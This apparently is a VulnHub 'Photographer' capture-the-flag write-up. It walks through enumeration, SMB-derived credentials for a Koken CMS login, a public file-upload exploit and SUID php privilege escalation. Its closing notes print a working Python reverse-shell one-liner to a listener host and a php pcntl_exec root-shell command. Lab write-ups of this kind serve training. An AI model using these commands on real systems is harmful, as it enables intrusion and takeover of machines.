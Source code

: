 ```yaml
---
title: Photographer
categories: [VulnHub]
tags: [CMS, PrivEsc, RFI, SUIDs, SMB, koken_CMS, php]
image:
  path: https://www.infosecarticles.com/content/images/2020/09/port80-1.png
  alt: Photographer Machine 📷
---
```


## **Description ⤵️**


##### 💡 [Photographer : 1](https://vulnhub.com/entry/photographer-1,519/) ⤵️

***This machine was developed to prepare for OSCP. It is boot2root, tested on VirtualBox (but works on VMWare) and has two flags: user.txt and proof.txt.***


### **Let’s find the IP Address first >>**

```bash
IP : 10.0.2.25
```
{: .nolineno}
{: .nolineno}

## Port Scan Results ➡️

![124-1.png](/Vulnhub-Files/img/Photographer/124-1.png)

![124-2.png](/Vulnhub-Files/img/Photographer/124-2.png)

```bash
OPEN PORTS >
80   HTTP
139  SMB
445  SMB
8000 HTTP
```
{: .nolineno}
{: .nolineno}

---

## Web Enumeration ⤵️

![125-1.png](/Vulnhub-Files/img/Photographer/125-1.png)

Lets first do some directory or files bruteforcing through `feroxbuster` Tool →

![127-1.png](/Vulnhub-Files/img/Photographer/127-1.png)

Then I checked port 8000, I found this `koken CMS` page.

![125-2.png](/Vulnhub-Files/img/Photographer/125-2.png)

I searched through public exploit from searchsploit Tool and found this exploit related to `koken CMS`. 

![125-3.png](/Vulnhub-Files/img/Photographer/125-3.png)

Lets check the SMB part as well →

![128-1.png](/Vulnhub-Files/img/Photographer/128-1.png)

![128-2.png](/Vulnhub-Files/img/Photographer/128-2.png)

![128-3.png](/Vulnhub-Files/img/Photographer/128-3.png)

```bash
Lets try these credentials → 
→ agi@photographer.com
→ daisa@photographer.com
→ my babygirl
So the final credentials were → 
ID     : daisa@photographer.com
pass : babygirl
```
{: .nolineno}
{: .nolineno}

I guess I got in successfully !

![128-4.png](/Vulnhub-Files/img/Photographer/128-4.png)

Now after login to koken site Lets do some further reconnaissance from internet →

![125-4.png](/Vulnhub-Files/img/Photographer/125-4.png)

Let is follow the exploit path →

![125-5.png](/Vulnhub-Files/img/Photographer/125-5.png)

![125-6.png](/Vulnhub-Files/img/Photographer/125-6.png)

Got the results my RFI is working fine →

![125-7.png](/Vulnhub-Files/img/Photographer/125-7.png)

Then I executed the python reverse shell code and I got this →

![126-1.png](/Vulnhub-Files/img/Photographer/126-1.png)

![126-2.png](/Vulnhub-Files/img/Photographer/126-2.png)

```bash
user.txt → d41d8cd98f00b204e9800998ecf8427e
```
{: .nolineno}
{: .nolineno}

while cheching the SUID file I got this →

![126-3.png](/Vulnhub-Files/img/Photographer/126-3.png)

![126-4.png](/Vulnhub-Files/img/Photographer/126-4.png)

![126-5.png](/Vulnhub-Files/img/Photographer/126-5.png)

![126-6.png](/Vulnhub-Files/img/Photographer/126-6.png)

```bash
proof.txt → d41d8cd98f00b204e9800998ecf8427e
```
{: .nolineno}
{: .nolineno}

<hr>
<br>

# **Summery Notes →**

> 💡
>Koken 0.22.24
>
>daisa@photographer.com
>
>agi@photographer.com
>
> ```bash
> python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.2.10",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
> ```
> 
> `./usr/bin/php7.2 -r "pcntl_exec('/bin/sh', ['-p']);"`
{: .prompt-tip }

<hr>

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }